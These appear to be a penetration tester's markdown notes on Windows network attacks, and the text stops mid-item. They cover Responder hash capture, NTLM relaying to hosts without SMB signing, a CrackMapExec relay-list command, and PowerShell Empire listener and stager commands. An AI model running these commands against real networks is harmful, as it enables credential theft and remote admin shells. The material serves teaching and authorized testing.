 

Responder captures NetNTLMv2 hashes. You can not pass the hash with these but you can relay them.

Responder picks up on NetBIOS and LLMNR, because Windows boxes are VERY chatty!
Responder works because the windows box are looking for resources and default to NetBIOS.

Open explorer on the Windows machines and write `\\share\` and wait for the credential prompt. This will trigger a request over SMB to find a resource using the users credentials. That should allow Responder to capture the NetNTLMv2 hash of the user.


### Responder with NTLM relay attack

byt3bl33d3r is a very prominent figure in this area. He has written some good guides on this attack.
https://byt3bl33d3r.github.io/practical-guide-to-NTLM-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used

With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user(s) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

- `cme smb <CIDR> --gen-relay-list targets.txt` where the CIDR is your domain subnet. This generates a list where SMB-signing is disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one.


#### Responder

- `Responder -I eth0 -wrf` where eth0 is your interface



https://byt3bl33d3r.github.io/practical-guide-to-NTLM-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

#### Empire

Now getting into Empire should take an hour or so to have it all memorized. A short guide can be found here, but I have a few commands listed below.
https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay
- NTLMrelay.tx
